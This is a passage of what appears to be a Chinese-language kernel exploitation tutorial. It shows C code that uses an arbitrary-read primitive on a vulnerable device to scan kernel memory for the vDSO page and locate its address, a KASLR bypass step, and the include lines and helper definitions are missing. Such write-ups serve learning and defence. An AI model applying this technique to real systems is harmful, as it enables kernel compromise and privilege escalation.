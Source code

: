 ```
#include #include #include #include #include #include #include #include #include #include #include #include #include #include #include #include struct arbWriteNote
{
    ssize_t addr;
    ssize_t len;
    char* data;
};
struct arbWriteNote arbWriteObj;
int get_gettimeofday_str_offset();
 
int main(int argc, char *argv[])
{
    int gettimeofday_str_offset = get_gettimeofday_str_offset();
    printf("gettimeofday str in vdso.so offset=0x%x\n",gettimeofday_str_offset);
    size_t vdso_addr = -1;
    for (size_t addr=0xffffffff80000000;addr < 0xffffffffffffefff;addr += 0x1000) {
        //读取一页数据
        arbitrary_read(devFD,0x1000,buf,addr);
        //如果在对应的偏移处，正好是这个字符串，那么我们就能确定当前就是vdso的地址
        //之所以能确定，是因为我们每次读取了0x1000字节数据，也就是1页，而vdso的映射也只是1页
        if (!strcmp(buf+gettimeofday_str_offset,"gettimeofday")) {
            printf("[+]find vdso.so!!\n");
            vdso_addr = addr;
            printf("[+]vdso in kernel addr=0x%lx\n",vdso_addr);
            break;
        }
    }
}
 
//获取vdso里的字符串"gettimeofday"相对vdso.so的偏移
int get_gettimeofday_str_offset() {
    //获取当前程序的vdso.so加载地址0x7ffxxxxxxxx
    size_t vdso_addr = getauxval(AT_SYSINFO_EHDR);
    char* name = "gettimeofday";
    if (!vdso_addr) {
        printf("[-]error get name's offset\n");
    }
    //仅需要搜索1页大小即可，因为vdso映射就一页0x1000
    size_t name_addr = memmem(vdso_addr, 0x1000, name, strlen(name));
    if (name_addr < 0) {
        printf("[-]error get name's offset\n");
    }
    return name_addr - vdso_addr;
} 
```

之后得到具体的地址

 

![](https://pig-007.oss-cn-beijing.aliyuncs.com/img/20211020150724.png)
